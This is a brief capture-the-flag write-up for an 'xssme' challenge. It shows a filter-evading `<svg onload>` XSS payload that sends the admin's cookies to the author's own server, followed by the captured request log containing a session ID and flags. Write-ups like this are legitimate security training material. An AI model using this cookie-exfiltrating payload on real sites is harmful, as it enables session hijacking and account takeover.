 # Writeup  
https://hackme.inndy.tw/scoreboard/  

## 33. xssme  
Simple xss challenge. Register to the dashboard, we can send a email to admin there. So we should make a xss to get admin cookie. However, he blocks the characters like `<script>` and `)`. My final payload:  
```php
<svg/onload="document.location='my.vps.ip?'+document.cookie">
```  
On my request bin:  
```php
GET /1auwng91?PHPSESSID=v64v8ei47nj3itb6qrcbbj8575; FLAG_XSSME=FLAG{Sometimes, XSS can be critical vulnerability <script>alert(1)</script>}; FLAG_2=IN_THE_REDIS
```  
Get the flag!
